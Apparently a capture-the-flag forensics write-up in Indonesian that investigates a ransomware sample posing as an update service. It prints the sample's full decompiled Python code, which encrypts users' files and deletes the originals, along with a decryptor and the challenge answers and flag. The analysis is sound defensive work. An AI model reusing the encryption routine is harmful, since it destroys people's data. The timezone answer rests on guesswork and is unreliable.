







Disini gw diberikan file .ad1 dan service netcat untuk menjawab soal soal yang diberi di service netcat tersebut, total ada 7 pertanyaan.

### Q1: A suspicious executable was found in the Downloads folder. What is the SHA256 Hash of this malware?

Disini untuk menjawabnya, gw perlu meng-dump .exe file nya yang berada di folder Downloads menggunakan FTK Imager, dan cek hask nya



Answer: `aeb4cc771ae6f76b17ad1e8fb44d69cf5e5cea24adb23af03cae1dc7fd5e743c`

### Q2: The malware targets specific users by incorporating their unique system identifier into the encryption key. What is the SID (Security Identifier) of the infected user? Answer format: S-1-5-21-xxxxxxxxxx-xxxxxxxxxx-xxxxxxxxx

Disini gw perlu mencari SID dari user yang terinfeksi. Informasi ini tersimpan di registry key `ProfileList` dalam hive `SOFTWARE`. Gw menggunakan `hivexregedit` untuk mengekspor key tersebut.

```
hivexregedit --export --unsafe --prefix 'HKEY_LOCAL_MACHINE\SOFTWARE' SOFTWARE '\Microsoft\Windows NT\CurrentVersion\ProfileList' > sid.reg
```

```auto
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList]
"Default"=hex(2):25,00,53,00,79,00,73,00,74,00,65,00,6d,00,44,00,72,00,69,00,76,00,65,00,25,00,5c,00,55,00,73,00,65,00,72,00,73,00,5c,00,44,00,65,00,66,00,61,00,75,00,6c,00,74,00,00,00
"ProfilesDirectory"=hex(2):25,00,53,00,79,00,73,00,74,00,65,00,6d,00,44,00,72,00,69,00,76,00,65,00,25,00,5c,00,55,00,73,00,65,00,72,00,73,00,00,00
"ProgramData"=hex(2):25,00,53,00,79,00,73,00,74,00,65,00,6d,00,44,00,72,00,69,00,76,00,65,00,25,00,5c,00,50,00,72,00,6f,00,67,00,72,00,61,00,6d,00,44,00,61,00,74,00,61,00,00,00
"Public"=hex(2):25,00,53,00,79,00,73,00,74,00,65,00,6d,00,44,00,72,00,69,00,76,00,65,00,25,00,5c,00,55,00,73,00,65,00,72,00,73,00,5c,00,50,00,75,00,62,00,6c,00,69,00,63,00,00,00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\S-1-5-18]
"Flags"=dword:0000000c
"ProfileImagePath"=hex(2):25,00,73,00,79,00,73,00,74,00,65,00,6d,00,72,00,6f,00,6f,00,74,00,25,00,5c,00,73,00,79,00,73,00,74,00,65,00,6d,00,33,00,32,00,5c,00,63,00,6f,00,6e,00,66,00,69,00,67,00,5c,00,73,00,79,00,73,00,74,00,65,00,6d,00,70,00,72,00,6f,00,66,00,69,00,6c,00,65,00,00,00
"RefCount"=dword:00000001
"Sid"=hex(3):01,01,00,00,00,00,00,05,12,00,00,00
"State"=dword:00000000

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\S-1-5-19]
"Flags"=dword:00000000
"ProfileImagePath"=hex(2):25,00,73,00,79,00,73,00,74,00,65,00,6d,00,72,00,6f,00,6f,00,74,00,25,00,5c,00,53,00,65,00,72,00,76,00,69,00,63,00,65,00,50,00,72,00,6f,00,66,00,69,00,6c,00,65,00,73,00,5c,00,4c,00,6f,00,63,00,61,00,6c,00,53,00,65,00,72,00,76,00,69,00,63,00,65,00,00,00
"State"=dword:00000000

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\S-1-5-20]
"Flags"=dword:00000000
"ProfileImagePath"=hex(2):25,00,73,00,79,00,73,00,74,00,65,00,6d,00,72,00,6f,00,6f,00,74,00,25,00,5c,00,53,00,65,00,72,00,76,00,69,00,63,00,65,00,50,00,72,00,6f,00,66,00,69,00,6c,00,65,00,73,00,5c,00,4e,00,65,00,74,00,77,00,6f,00,72,00,6b,00,53,00,65,00,72,00,76,00,69,00,63,00,65,00,00,00
"State"=dword:00000000

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\S-1-5-21-2472383311-4215914088-769331741-500]
"Flags"=dword:00000000
"FullProfile"=dword:00000001
"LocalProfileLoadTimeHigh"=dword:01dc91fe
"LocalProfileLoadTimeLow"=dword:d39a598b
"LocalProfileUnloadTimeHigh"=dword:01dc921b
"LocalProfileUnloadTimeLow"=dword:a279ef83
"ProfileAttemptedProfileDownloadTimeHigh"=dword:00000000
"ProfileAttemptedProfileDownloadTimeLow"=dword:00000000
"ProfileImagePath"=hex(2):43,00,3a,00,5c,00,55,00,73,00,65,00,72,00,73,00,5c,00,68,00,6f,00,72,00,73,00,65,00,6d,00,61,00,6e,00,00,00
"ProfileLoadTimeHigh"=dword:00000000
"ProfileLoadTimeLow"=dword:00000000
"RunLogonScriptSync"=dword:00000000
"Sid"=hex(3):01,05,00,00,00,00,00,05,15,00,00,00,4f,93,5d,93,68,be,49,fb,1d,12,db,2d,f4,01,00,00
"State"=dword:00000304
```

Dari hasil dump registry tersebut, terlihat entry untuk `S-1-5-21-2472383311-4215914088-769331741`.

Answer: `S-1-5-21-2472383311-4215914088-769331741`

### Q3: The malware leaves a trace of its initialization within the Windows Event Logs. What is the Event ID used by the malware to log its persistence entry?

Sebelumnya karna gw udah dump `malicious` .exe nya, kita bisa cek bahwa binary tersebut ternyata adalah pyinstaller, langsung gw extract



dan ini hasil dari extract pyinstaller-nya



kita dapet `updater.pyc`, langsung gw decompile pake pylingual

```py
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: 'updater.py'
# Bytecode version: 3.14rc3 (3627)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import os
import win32evtlog
import win32api
import win32security
import hashlib
import base64
import random
import string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
def get_user_sid():
   try:
       username = win32api.GetUserName()
       domain = win32api.GetDomainName()
       sid_obj, _, _ = win32security.LookupAccountName(domain, username)
       sid_str = win32security.ConvertSidToStringSid(sid_obj)
       return sid_str
   except:
       return 'S-1-5-21-UNKNOWN'
def generate_and_log_token():
   token = ''.join(random.choices(string.ascii_uppercase + string.digits, k=16))
   msg = f'Update service initialized successfully. Reference ID: {token}.'
   try:
       h_event_log = win32evtlog.OpenEventLog(None, 'Application')
       win32evtlog.ReportEvent(h_event_log, win32evtlog.EVENTLOG_INFORMATION_TYPE, 0, 1337, None, [msg], None)
   except:
       pass
   return token
def encrypt_specific_folders(sid, token):
   raw_key = f'{sid}_{token}'.encode()
   key = hashlib.sha256(raw_key).digest()
   user_home = os.path.expanduser('~')
   target_folders = ['Documents', 'Downloads', 'Pictures']
   print('[*] Starting encryption...')
   for folder_name in target_folders:
       full_path = os.path.join(user_home, folder_name)
       if not os.path.exists(full_path):
           continue
       else:
           for root, dirs, files in os.walk(full_path):
               for filename in files:
                   if filename.lower().endswith(('.exe', '.py', '.dll', '.ini')):
                       continue
                   else:
                       filepath = os.path.join(root, filename)
                       try:
                           with open(filepath, 'rb') as f:
                               data = f.read()
                           iv = os.urandom(16)
                           cipher = AES.new(key, AES.MODE_CBC, iv)
                           ciphertext = cipher.encrypt(pad(data, AES.block_size))
                           enc_filename = base64.b64encode(filename.encode()).decode()
                           output_path = os.path.join(root, enc_filename)
                           with open(output_path, 'wb') as f:
                               f.write(iv)
                               f.write(ciphertext)
                           os.remove(filepath)
                           print(f'[+] Encrypted: {filename}')
                       except Exception as e:
                           pass
if __name__ == '__main__':
   sid = get_user_sid()
   token = generate_and_log_token()
   encrypt_specific_folders(sid, token)
   print('[!] DONE.')
```

dari source yang sudah didapat dari hasil decompile, kita tau bahwa jawabannya adalah `1337`

Answer: `1337`

### Q4: Within the description of the event log identified in Question 3, the malware stores a unique "Reference ID" or token. What is the value of this Secret Token?

Disini gw pake `EvtxECmd` untuk parsing `Application.evtx` yang berada di path `C:\Windows\System32\winevt\Logs\Application.evtx`, setelah dapet langsung grep `Reference ID` ke Application.evtx



Answer: `OOM9OV5VPRNIK3S2`

### Q5: To establish an incident timeline, determine the exact time the malware recorded its persistence log. What is the timestamp in UTC?

Disini kita tau karna telah mengexport menjadi csv, jadi kita bisa lihat timestampnya

```auto
312,312,2026-01-30 16:02:39.0697403,1337,Info,Application,Application,0,0,horseman,16,,,,,,,,,,,,False,C:\Users\Bara\ceteep\ara7\for\horseman\Application.evtx,0x80000000000000,0,"{""EventData"":{""Data"":""Update service initialized successfully. Reference ID: OOM9OV5VPRNIK3S2."",""Binary"":""""}}
```

kalo berdasarkan data di atas, seharusnya kan jawabannya `2026-01-30 16:02:39`, tetapi saat gw submit salah, jadi gw coba untuk convert ke banyak nya zona waktu, dan salah satunya gw mencoba convert ke UTC 5



dan pas coba disubmit, ternyata bener

Answer: `2026-01-30 11:02:39`

### Q6: Based on the header analysis of the encrypted files and the malware's logic, identify the encryption algorithm and mode used.

Disini karna sebelumnya gw udah decompile `updater.pyc` nya, jadi kita tau bahwa berdasarkan source nya

```py
iv = os.urandom(16)
cipher = AES.new(key, AES.MODE_CBC, iv)
ciphertext = cipher.encrypt(pad(data, AES.block_size))
enc_filename = base64.b64encode(filename.encode()).decode()
output_path = os.path.join(root, enc_filename)
```

bahwa algorithm yang digunakan adalah AES dengan mode CBC

Answer: `AES-CBC`

### Q7: DATA RECOVERY (FINAL) The user reports losing a critical file named 'confidential.txt' in the Documents folder. Using your findings (SID + Token + IV), decrypt the file and reveal the secret string inside.

Dengan menyatukan findinds yang sudah kita dapat, kita bisa membuat decryptor nya seperti ini

```py
import hashlib
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

TOKEN = "OOM9OV5VPRNIK3S2"
FILE  = "Y29uZmlkZW50aWFsLnR4dA=="

candidates = [
    "S-1-5-21-2472383311-4215914088-769331741",      # domain SID (format Q2)
    "S-1-5-21-2472383311-4215914088-769331741-500",  # full user SID
]

data = open(FILE, "rb").read()
iv, ct = data[:16], data[16:]

for SID in candidates:
    raw_key = f"{SID}_{TOKEN}".encode()
    key = hashlib.sha256(raw_key).digest()

    try:
        pt = unpad(AES.new(key, AES.MODE_CBC, iv).decrypt(ct), AES.block_size)
        print("[OK] SID =", SID)
        print(pt.decode("utf-8"))
        break
    except Exception as e:
        print("[FAIL] SID =", SID, "|", e)
```



Answer: `b967081a1a071c25e2c4437e2e124b60b73407ec8eceb52e1eecc00caa1873ba`

Nah jawabannya udah kekumpul semua, langsung submit ke netcat service nya



Answer: `ARA7{GG!_y0u_4r3_4_f0r3ns1c_M4st3r_&_R4ns0mw4r3_hUnT3R_HORSEMAN_SOLVED!!!!}`
